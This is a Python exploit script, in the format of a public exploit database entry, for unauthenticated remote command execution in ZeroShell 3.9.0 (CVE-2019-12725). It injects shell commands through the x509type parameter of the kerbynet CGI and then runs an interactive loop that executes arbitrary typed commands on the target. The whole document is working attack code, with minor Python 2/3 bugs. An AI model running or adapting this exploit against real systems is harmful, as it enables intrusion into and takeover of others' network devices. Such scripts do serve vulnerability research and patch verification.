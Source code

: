 EXP
---

    # Exploit Title: ZeroShell 3.9.0 - Remote Command Execution
    # Date: 10/05/2021
    # Exploit Author: Fellipe Oliveira
    # Vendor Homepage: https://zeroshell.org/
    # Software Link: https://zeroshell.org/download/
    # Version: < 3.9.0
    # Tested on: ZeroShell 3.9.0
    # CVE : CVE-2019-12725

    #!/usr/bin/python3

    import requests
    import optparse
    import time

    parser = optparse.OptionParser()
    parser.add_option('-u', '--url', action="store", dest="url", help='Base target uri (ex. http://target-uri/)')

    options, args = parser.parse_args()
    if not options.url:
        print('[+] Specify an url target')
        print('[+] Example usage: exploit.py -u http://target-uri/')
        print('[+] Example help usage: exploit.py -h')
        exit()

    uri_zeroshell = options.url
    session = requests.Session()

    def command():
        try:
            check = session.get(uri_zeroshell + "/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0Aid%0A'")
            if check.status_code == 200:
                flag = True
                print('[+] ZeroShell 3.9.0 Remote Command Execution')
                time.sleep(1)
                print('[+] Success connect to target')
                time.sleep(1)
                print('[+] Trying to execute command in ZeroShell OS...\n')
                time.sleep(1)
                check.raise_for_status()

            while flag:
                cmd = raw_input("$ ")
                payload = "/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A" + cmd + "%0A'"
                uri_vuln = uri_zeroshell + payload
                burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
                res = session.get(uri_vuln, headers=burp0_headers, verify=False)
                print(res.text[:res.text.rindex("<html>") / 2])

        except requests.exceptions.ConnectionError as err:
            print('[x] Failed to Connect in: '+uri_zeroshell+' ')
            print('[x] This host seems to be Down')
            exit()
        except requests.exceptions.HTTPError as conn:
            print('[x] Failed to execute command in: '+uri_zeroshell+' ')
            print('[x] This host does not appear to be a ZeroShell')
            exit()

    command()